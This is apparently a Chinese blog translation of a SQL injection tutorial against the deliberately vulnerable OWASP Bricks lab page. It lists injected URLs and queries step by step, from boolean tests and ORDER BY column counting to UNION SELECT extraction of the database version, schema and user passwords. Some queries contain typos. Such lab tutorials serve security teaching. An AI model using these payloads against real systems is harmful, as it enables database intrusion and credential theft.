 ```yaml
---
layout: post
title: "翻译---高级SQL注入 -基于整数"
categories:
- 今日头条
tags:
---
```

URL: bricks/content-1/index.php?id=0

SQL Query: SELECT * FROM users WHERE idusers=0 LIMIT 1

这里的id参数允许通过浏览器的URL进行输入改变输入的值这将会产生不一样的输出。

URL: bricks/content-1/index.php?id=1

SQL Query: SELECT * FROM users WHERE idusers=1 LIMIT 1

这次，页面显示的内容是另一个用户的。自从参数id 被输入便成了一个有趣的测试起点。首先，需要见测试是否容易受到SQL注入攻击的。

URL: bricks/content-1/index.php?id=0′

SQL Query: SELECT * FROM users WHERE idusers=0′ LIMIT 1

页面将不会有输出，但是会显示一些错误的信息。这意味着id参数存在着注入点，并且可以插入我们的注入语句，然后干扰查询内容。注入代码必须用一种不打乱完整的SQL语句方式去插入。下一步是利用精心构造的SQL命令去验证漏洞是否存在。

URL: bricks/content-1/index.php?id=0 and 1=1

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=1 LIMIT 1

现在页面不显示任何错误。这是因为添加的SQL语句返回的是一个True值。那么如果添加的语句返回的不是一个true值会怎么样呢？

URL: bricks/content-1/index.php?id=0 and 1=2

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 LIMIT 1

由于注入的代码总是返回false，Web的页面将不再显示任何内容，只会显示错误的信息告诉用户是不错在的。这就证明注入的语句在id这个参数上确实可以执行的。

注入的代码可以进一步的修改而得以完成更高级的功能，包括获取、删除、改变一些重要的信息。然而，在目前阶段，没有清晰的关于数据库的知识，版本，表，列等信息。所以，这些细节信息必须首先枚举出来。枚举出当前数据库列数是相对比较简单的一项工作。

URL: bricks/content-1/index.php?id=0 order by 1

SQL Query: SELECT * FROM users WHERE idusers=0 order by 1 LIMIT 1

页面将不会显示任何问题，也不会出现错误信息。

URL: bricks/content-1/index.php?id=0 order by 2

SQL Query: SELECT * FROM users WHERE idusers=0 order by 2 LIMIT 1

页面显示的内不再有任何问题和错误。所以这证明至少存在有2个列。

URL: bricks/content-1/index.php?id=0 order by 3

SQL Query: SELECT * FROM users WHERE idusers=0 order by 3 LIMIT 1

这个页面显示的内容仍然没有任何问题和错误。所以它至少有三个列。

这个过程中不断增加 order by的值直到页面出现一些显示的变化之后。

URL: bricks/content-1/index.php?id=0 order by 8

SQL Query: SELECT * FROM users WHERE idusers=0 order by 8 LIMIT 1

这个页面显示的内容仍然没有任何问题和错误。所以它至少有八个列。

URL: bricks/content-1/index.php?id=0 order by 9

SQL Query: SELECT * FROM users WHERE idusers=0 order by 9 LIMIT 1

这次页面出现了一些错误，所以第九列是不存在的。这将确认这个表只有8列。

union select语句将会找到这8个列中哪一个会产生漏洞。

URL: bricks/content-1/index.php?id=0 UNION SELECT 1,2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=0 UNION SELECT 1,2,3,4,5,6,7,8 LIMIT 1

这次页面没有出现任何特殊的信息也非正常的页面。这是因为页面只返回了查询结果的第一行。如果是这种情况，就需要对注入代码进行小小的修改使第二行显示完整。这有很多方法可以做到。

URL: bricks/content-1/index.php?id=99999 UNION SELECT 1,2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=99999 UNION SELECT 1,2,3,4,5,6,7,8 LIMIT 1

在这，假定数据库的存储用户信息的数量是小于99999。因为没有ID是99999的用户，这第一行明显的变成无效的了，而第二行将变得有效。于是便将改变输出到了页面上显示出来。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT 1,2,3,4,5,6,7,8 LIMIT 1

尽可能的使第一部分命令失效。

这两种情况都会显示一些数字插入在真实的用户信息中。这些数字相对应的列就存在漏洞。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT user(),2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT user(),2,3,4,5,6,7,8LIMIT 1

第一个数字被替换成当前数据库的用户名，就是root@localhost

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT version(),2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT version(),2,3,4,5,6,7,8LIMIT 1

这将帮助我们获得数据库的版本。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT database(),2,3,4,5,6,7,8

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT database(),2,3,4,5,6,7,8 LIMIT 1

当前数据库的名字将会被显示-bricks。现在必须枚举出当前数据库的表。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT table_name,2,3,4,5,6,7,8 from information_schema.tables where table_schema=’bricks’

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECTtable_name,2,3,4,5,6,7,8 from information_schema.tables where table_schema=’bricks’ LIMIT 1

因为只有一个表在bricks数据库中，所以它的信息会被显示出来。下一步是获取user表的列。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT column_name,2,3,4,5,6,7,8 from information_schema.columns where table_schema=’bricks’ and table_name=’users’ LIMIT 0,1 — –

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECTtable_name,2,3,4,5,6,7,8 from information_schema.tables where table_schema=’bricks’ andtable_name=’users’ LIMIT 0,1 — – LIMIT 1

idusers的名字在users表的第一列。这两个LIMIT函数看起来在执行的查询语句中，这将会出现冲突而导致结果出现语法错误。为了避开这些问题，应紧接在注入的LIMIT函数后面，加入–注释，注释掉查询语句的其余部分。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT column_name,2,3,4,5,6,7,8 from information_schema.columns where table_schema=’bricks’ and table_name=’users’ LIMIT 1,1 — –

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECTcolumn_name,2,3,4,5,6,7,8 from information_schema.columns where table_schema=’bricks’ andtable_name=’users’ LIMIT 1,1 — – LIMIT 1

name 是 users 表的第二列。

这个过程需要持续到LIMIT 7,1（作为一个有8列的表，它的编号开始为0）。在这个过程的最后，所有的列明将会获取到下面这些：idusers, name, email, password, ua, ref, host, lang。用户名列和密码列将会是比较有趣的列。所以下一步需要通过注入语句获取到这些列里面的数据。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT concat(name,CHAR(32),password),2,3,4,5,6,7,8 from bricks.users LIMIT 0,1 — –

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT concat(name,CHAR(32),password),2,3,4,5,6,7,8 from bricks.users LIMIT 0,1 — – LIMIT 1

这将获得用户表里第一个用户和密码。CHAR(32)代表一个空格，这样放在用户和密码之间使其很容易去区分。

URL: bricks/content-1/index.php?id=0 and 1=2 UNION SELECT concat(name,CHAR(32),password),2,3,4,5,6,7,8 from bricks.users LIMIT 1,1 — –

SQL Query: SELECT * FROM users WHERE idusers=0 and 1=2 UNION SELECT concat(name,CHAR(32),password),2,3,4,5,6,7,8 from bricks.users LIMIT 1,1 — – LIMIT 1

获得用户表里第二个用户和密码。这个过程持续到获取表里所有的用户名和密码。

参考：http://sechow.com/bricks/docs/content-page-1.html

学习参考：http://www.hetianlab.com/

原文作者：CRoot